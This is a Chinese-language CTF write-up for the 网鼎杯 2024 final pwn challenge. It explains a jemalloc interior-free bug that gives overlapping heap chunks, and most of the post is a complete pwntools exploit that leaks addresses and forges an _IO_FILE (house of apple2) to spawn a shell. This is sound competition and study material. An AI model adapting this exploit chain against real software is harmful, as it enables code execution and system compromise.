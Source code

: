 ```yaml
---
date: 2024-12-17 10:29:05
layout: post
title: every fold reveals a side
subtitle: 网鼎杯 2024 final writeup
description: >-
    jemalloc play ~
image: >-
  /assets/img/uploads/autumn_cat.jpg
optimized_image: >-
  /assets/img/uploads/autumn_cat.jpg
category: ctf
tags:
  - jemalloc
  - wdb
  - pwn
  - heap exploitation
author: rosayxy
paginate: true
---
```

唉，最近在家效率低到炸裂，沉迷各种言情小说（在现实世界里得不到的爱情只能从书中看了（流泪）），于是写博客督促自己不要过于摸鱼     
下面进入正题,附件见 [这里](/attachments/every-fold-reveals-a-side.zip)     

## 整体情况
这个题的特殊之处是他并没有用常规的 ptmalloc 而是用的 jemalloc，所以堆构造就完全不同了，然后看了之前的几个 jemalloc 相关的 writeup 感觉好像漏洞点也和本文的不同，所以就只能边打边摸索了     
## 漏洞点
在 switch-case 的 case6 处有一个 free 堆块内地址
```c
if ( !final_struct )
  exit(-1);
free((void *)(final_struct + v3[choice]));
*(_QWORD *)(final_struct + v3[choice]) = 0LL;
```
这种情况在 ptmalloc 里面大概率会 crash 掉，但是在 jemalloc 中则不会，于是写了以下序列来观察：
```py
fold(231)
uninstall()
fold(123)
```
发现 free 的堆块是 malloc 0x68_base + 0x10 然后再次 fold 的时候申请出来 0x68 的堆块也是和 free 地址相同，都是 0x68_base + 0x10，于是就类似于一个堆重叠原语    
之后一开始还不太清楚怎么用，只能 leak 一个堆地址，卡了一会看到可以来回切换 fold 的形态，并且如果之前申请过的话就会用原本的结构体来做后续操作，所以就大概知道怎么用这个堆重叠了     
最终相当于是有一个任意地址写 + 任意地址读原语，然后打 house of apple2 就行      
## exp
```py
from pwn import*
context(log_level="debug", arch="amd64", os="linux")
p=process("./pwn")
libc = ELF("./libc.so.6")
def fold(num):
    p.recvuntil("Enter your choice > ")
    p.sendline("1")
    p.recvuntil("Which direction?\n")
    p.sendline(str(num))

def edit(content):
    p.recvuntil("Enter your choice > ")
    p.sendline("2")
    p.recvuntil("Enter memo content > ")
    p.send(content)

def read():
    p.recvuntil("Enter your choice > ")
    p.sendline("3")

def delete():
    p.recvuntil("Enter your choice > ")
    p.sendline("4")

def play():
    p.recvuntil("Enter your choice > ")
    p.sendline("5")

def uninstall():
    p.recvuntil("Enter your choice > ")
    p.sendline("6")
    
def get_basic_info():
    p.recvuntil("Enter your choice > ")
    p.sendline("7")

def edit_basic_info(content):
    p.recvuntil("Enter your choice > ")
    p.sendline("8")
    p.recvuntil("Enter memo content > ")
    p.send(content)
    
# 下一次从被 free 的地址开始申请
# one gadget 0x583dc 0x583e3 0xef4ce 0xef52b
fold(231)
uninstall()
fold(123)
get_basic_info()
p.recvuntil("Basic info:\n")
p.recv(0x30)

heap_leak = u64(p.recv(6).ljust(8,b"\x00"))
# 0x7fca45625000 0x7fca45d93000
print(hex(heap_leak))
# edit pointer 123 的 0x18 的位置是 funcptr 的堆块
# leak proc
edit_basic_info(p64(0)*5+p64(0x100)+p64(heap_leak - 0x1000+0x10))
fold(231)
read()
p.recvuntil("Memo content:\n")
proc_leak = u64(p.recv(6).ljust(8,b"\x00"))
proc_base = proc_leak - 0x15bd
print(hex(proc_base))
# leak libc
fold(123)
edit_basic_info(p64(0)*5+p64(0x100)+p64(proc_base + 0x3f88))
fold(231)

read()
p.recvuntil("Memo content:\n")
libc_leak = u64(p.recv(6).ljust(8,b"\x00"))
libc_base = libc_leak - libc.sym["puts"]
print(hex(libc_base))
# arbituary address write
fold(123)
edit_basic_info(p64(0)*5+p64(0x100)+p64(heap_leak + 0x1000))
fold(231)
io_list_all = libc_base + 0x2044C0
system_addr = libc_base + libc.sym["system"]
heap_addr = heap_leak + 0x1000
fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file = fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(heap_addr+0xe8)
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(heap_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x202228+libc_base)
fake_io_file+=p64(heap_addr)
fake_io_file += p64(0)+p64(heap_addr+0xe8)
edit(fake_io_file)
fold(123)
edit_basic_info(p64(0)*5+p64(0x100)+p64(io_list_all))
fold(231)
edit(p64(heap_addr))
fold(111)
p.interactive()

```